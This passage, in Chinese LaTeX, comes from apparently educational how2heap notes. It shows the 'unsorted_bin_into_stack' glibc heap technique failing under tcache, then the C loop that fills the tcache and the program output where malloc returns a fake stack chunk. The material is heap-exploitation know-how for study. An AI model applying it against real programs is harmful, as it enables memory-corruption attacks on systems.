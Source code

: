 这里值得注意的是，\verb+ tcache_get()+函数内部不包含任何检查措施，也是我们利用成功的原因之一。

\subsection{unsorted\_bin\_into\_stack}

编译，运行，攻击没有成功：
\begin{verbatim}
$ how2heap-227 ./unsorted_bin_into_stack
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
Freeing the chunk 0x164b260, it will be inserted in the unsorted bin
Create a fake chunk on the stackSet size for next allocation and the bk pointer to any writable addressNow emulating a vulnerability that can overwrite the victim->size and victim->bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem
Now next malloc will return the region of our fake chunk: 0x7ffd5f1d1600
malloc(0x100): 0x164b260

\end{verbatim}

攻击失败了，gdb调试可以看到：
\begin{verbatim}
gef> x/30gx 0x0000000000602000+0x10
0x602010:   0x0000000000000000  0x0100000000000000 <-- tcache_1
0x602020:   0x0000000000000000  0x0000000000000000
........:   ...                 ...
0x6020c0:   0x0000000000000000  0x0000000000602260 <-- address of victim

\end{verbatim}

可以很明显的看到，就像之前影响\verb+ free()+的一样，同样是tcache影响了，我们只需要在代码中将tcache占满即可：
\begin{verbatim}
// deal with tcache
 int *k[10], i;
 for (i = 0; i < 7; i++) {
     k[i] = malloc(0x80);
 }
 for (i = 0; i < 7; i++) {
     free(k[i]);
 }
\end{verbatim}

添加后编译运行，攻击成功：

\begin{verbatim}
$ how2heap-227 ./unsorted_bin_into_stack
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
Freeing the chunk 0x1e53260, it will be inserted in the unsorted bin
Create a fake chunk on the stackSet size for next allocation and the bk pointer to any writable addressNow emulating a vulnerability that can overwrite the victim->size and victim->bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem
Now next malloc will return the region of our fake chunk: 0x7ffe370742b0
malloc(0x100): 0x7ffe370742b0

\end{verbatim}

